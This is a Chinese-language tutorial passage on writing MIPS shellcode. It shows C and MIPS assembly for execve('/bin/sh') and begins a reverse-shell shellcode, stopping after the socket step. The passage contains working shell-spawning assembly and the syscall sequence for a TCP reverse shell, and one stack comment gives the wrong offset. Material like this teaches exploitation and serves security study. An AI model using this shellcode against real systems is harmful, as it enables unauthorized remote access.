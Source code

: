 ### 示例：execve 函数的执行

举个例子，在 C 语言中执行 `execve` 函数来获取 shell 的代码如下：

```
#include &lt;stdlib.h&gt;

int main(){
    execve("/bin/sh",0,0);
return 0;
}
```

对应的汇编代码为：

```
lui $t6,0x2f62
ori $t6,$t6,0x696e
sw $t6,28($sp)                        // 将 "/bin" 存入 $sp+28 的栈空间

lui $t7,0x2f2f
ori $t7,$t7,0x7368
sw $t7,32($sp)                        // 将 "//sh" 存入 $sp+28 的栈空间
sw $zero,36($sp)                  // 0 截段


la $a0,28($sp)                        // a0 寄存器指向 "/bin//sh" 栈空间

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011            // execve 的系统调用号为 4011

syscall 0x40404                        // 调用 execve("/bin/sh",0,0);
```

在第一、第二行中，lui 和 ori 指令配合使用可以赋值一个 4 字节空间，lui 指令赋值高位 2 字节，ori 指令赋值低位 2 字节。



## 反弹 shell 的 shellcode 汇编代码编写

在实际使用 shellcode 进行利用的过程中，一般是编写、使用能够反弹 shell 的 shellcode 来 getshell 而不使用直接执行 `execve` 函数的方法。针对于反弹 shell 的 shellcode 汇编代码，编写起来会更加复杂，但是系统调用的过程步骤都是不变的：

```
socket(2,1,0) -&gt; dup2(s,0/1/2) -&gt; connect(s,(sockaddr *)&amp;addr,0x10) \
-&gt; execve("/bin/sh",["/bin/sh",0],0) -&gt; exit(0)
```

那么这里就对几个函数调用的步骤进行分解，依次写出系统调用的汇编代码。

### socket 系统调用

这里我们使用 TCP reverse shell 的方式来反弹 shell。那么调用 `socket` 函数以 C 语言来表示的话如下：

```
socket(AF_INET,SOCK_STREAM, 0)
```
